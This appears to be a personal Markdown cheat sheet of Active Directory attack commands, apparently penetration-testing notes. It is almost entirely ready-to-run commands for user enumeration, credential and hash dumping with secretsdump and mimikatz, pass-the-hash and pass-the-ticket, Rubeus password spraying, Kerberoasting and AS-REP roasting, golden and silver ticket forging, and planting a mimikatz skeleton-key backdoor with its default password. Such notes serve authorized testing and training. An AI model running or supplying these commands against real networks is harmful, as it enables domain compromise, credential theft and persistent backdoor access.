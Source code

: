 # User enumeration
## Attack
```cmd
:: SPN accounts
setspn -T medin -Q */*
```

```bash
# VERY IMPORTANT, Add DNS domain name in /etc/hosts / C:\Windows\System32\drivers\etc\hosts
kerbrute userenum --dc DOMAIN_CONTROLLER -d DOMAIN WORDLIST 
```

# Credentials dump
## Attack
```bash
sudo python3 ~/Software/impacket/examples/secretsdump.py [DOMAIN_NAME]/USER[:PASSWORD]@IP
```

# Pass the hash
## Attack
```bash
~/Scripts/evil-winrm/evil-winrm.rb  -i IP -u USER -H NTLM_HASH -s '/home/vagrant/Scripts/PowerSploit/'
```

# Fetch Ticket
## Attack
```cmd
Rubeus.exe harvest /interval:30
```

# Password
## Attack
```cmd
:: VERY IMPORTANT, Add DNS domain name in /etc/hosts / C:\Windows\System32\drivers\etc\hosts

:: Password spraying
:: Be mindful of how you use this attack as it may lock you out of the network depending on the account lockout policies.
Rubeus.exe brute /password:KNOWN_PASSWORD /noticket
```

# Crack service password - Kerberoasting
## Enumerate vulnerable accounts
Use BloodHound (never tried)

## Attack
```cmd
:: Dump Kerberos hash of any kerberoastable users
Rubeus.exe kerberoast
```

```bash
sudo python3 ~/Software/impacket/examples/GetUserSPNs.py DOMAIN_NAME/USER:PASSWORD -dc-ip DOMAIN_CONTROLLER_IP -format hashcat -request
```

# Crack password - AS-REP
Not limited to service accounts, but can only be used on users with pre-authentication disabled.

## Attack
```cmd
Rubeus.exe asreproast
```

```bash
sudo python3 ~/Software/impacket/examples/GetNPUsers.py DOMAIN_NAME/USER[:PASSWORD] -usersfile USERSFILE -format hashcat -request
```

# Dump hashes (ntlm / lm)
## Attack
```cmd
mimikatz.exe
privilege::debug
:: Check output is '20' OK

lsadump::lsa /patch
```

# Pass the ticket
## Attack
```cmd
mimikatz.exe
privilege::debug
:: Check output is '20' OK

:: Export tickets into current directory
sekurlsa::tickets /export
kerberos::ptt TICKET
```

# Golden ticket
## Attack
```cmd
mimikatz.exe

privilege::debug
:: Check output is '20' OK

:: Dump KRBTGT hash
:: Replace "krbtgt" by any service for a silver ticket
lsadump::lsa /inject /name:krbtgt

:: Create a golden ticket
Kerberos::golden /user: /domain: /sid: /krbtgt: /id:500

:: Create a silver ticket
:: Use a service account sid
Kerberos::golden /user: /domain: /sid: /krbtgt: /id:1103

:: Use the ticket
misc::cmd
exit

:: Then access other ressources like:
dir \\Desktop-1\c$
```

# Backdoor with Skeleton key
The Kerberos backdoor works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps. A skeleton key only works using Kerberos RC4 encryption. 

The default hash for a mimikatz skeleton key is 60BA4FCADC466C7A033C178194C03DF6 which makes the password -"mimikatz"

## Attack
```cmd
mimikatz.exe
privilege::debug
:: Check output is '20' OK

misc::skeleton
exit

:: Then use the skeleton key
net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
dir \\Desktop-1\c$ /user:Machine1 mimikatz
```
